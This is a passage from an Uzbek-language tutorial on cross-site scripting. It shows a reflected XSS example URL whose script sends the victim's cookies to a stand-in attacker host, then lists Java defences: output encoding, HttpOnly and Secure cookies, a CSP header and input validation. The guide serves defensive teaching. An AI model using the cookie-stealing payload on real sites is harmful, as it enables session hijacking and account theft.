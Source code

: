 ### Reflektiv XSS:
Hujumchi foydalanuvchiga quyidagi URL’ni yuboradi:
```
http://example.com/search?q=<script>document.location='http://hujumchi.com/steal?cookie='+document.cookie;</script>
```
Foydalanuvchi URL’ni bosganda, skript ishga tushadi va cookie’lar hujumchining saytiga yuboriladi.

## XSS dan himoya qilish usullari

XSS hujumlaridan himoya qilish uchun quyidagi usullarni qo‘llash tavsiya etiladi:

### 1. Kirish ma’lumotlarini sanitarizatsiya qilish
- Foydalanuvchi kiritgan ma’lumotlarni (forma maydonlari, URL parametrlari) to‘g‘ri filtrlang va sanitarizatsiya qiling.
- HTML maxsus belgilarini kodlash (encode) qiling:
  - `<` → `&lt;`
  - `>` → `&gt;`
  - `"` → `&quot;`
  - `&` → `&amp;`
- Java yoki Jakarta Servletlarda `org.owasp.encoder` yoki `ESAPI` kutubxonalaridan foydalaning:
  ```java
  import org.owasp.encoder.Encode;
  String userInput = req.getParameter("comment");
  String safeOutput = Encode.forHtml(userInput);
  ```

### 2. HTTP-only Cookie’lar
- Cookie’larda `HttpOnly` xususiyatini yoqing, bu JavaScript orqali cookie’ni o‘qishni bloklaydi:
  ```java
  Cookie cookie = new Cookie("sessionId", sessionId);
  cookie.setHttpOnly(true);
  resp.addCookie(cookie);
  ```

### 3. Secure Cookie’lar
- HTTPS ulanishlarida cookie’lar faqat shifrlangan holda uzatilishi uchun `setSecure(true)` ni yoqing:
  ```java
  cookie.setSecure(true);
  ```

### 4. Content Security Policy (CSP)
- Brauzerda faqat ruxsat berilgan manbalardan skriptlar ishga tushishini ta’minlash uchun CSP sarlavhalarini qo‘shing:
  ```java
  resp.setHeader("Content-Security-Policy", "script-src 'self'");
  ```
- Bu tashqi yoki noma’lum skriptlarning ishga tushishini bloklaydi.

### 5. Kirish ma’lumotlarini validatsiya qilish
- Foydalanuvchi kiritgan ma’lumotlarni qat’iy validatsiya qiling (masalan, faqat harf va raqamlarni qabul qilish).
- Masalan, sharh maydonida faqat matn ruxsat etilsa:
  ```java
  if (!userInput.matches("[a-zA-Z0-9\\s]*")) {
      throw new IllegalArgumentException("Faqat harf va raqamlar ruxsat etiladi");
  }
  ```
